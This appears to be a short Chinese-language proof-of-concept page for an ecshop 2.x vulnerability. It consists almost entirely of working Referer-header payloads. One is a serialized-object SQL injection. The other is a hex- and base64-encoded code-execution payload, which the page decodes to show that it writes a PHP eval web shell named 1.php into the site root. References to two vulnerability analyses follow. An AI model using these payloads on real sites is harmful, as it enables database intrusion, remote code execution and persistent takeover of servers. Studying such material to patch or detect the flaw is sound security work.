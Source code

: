 
## Affected Version  

**ecshop2.x**

## POC 

**Referer处。**

### 注入
    Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;}
![](http://opmi2ydgh.bkt.clouddn.com//18-9-3/61896860.jpg)

### 代码执行

    Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:280:"*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:3:"'/*";}

 在网站根目录下生成1.php的一句话。

    assert(base64_decode('ZmlsZV9wdXRfY29udGVudHMoJzEucGhwJywnPD9waHAgZXZhbCgkX1BPU1RbMTMzN10pOyA/Picp'));//}xxx
    file_put_contents('1.php','<?php eval($_POST[1337]); ?>')

## References

[ecshop2.x代码执行](http://ringk3y.com/2018/08/31/ecshop2-x%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/)
[ECShop全系列版本远程代码执行高危漏洞分析](https://xz.aliyun.com/t/2689)


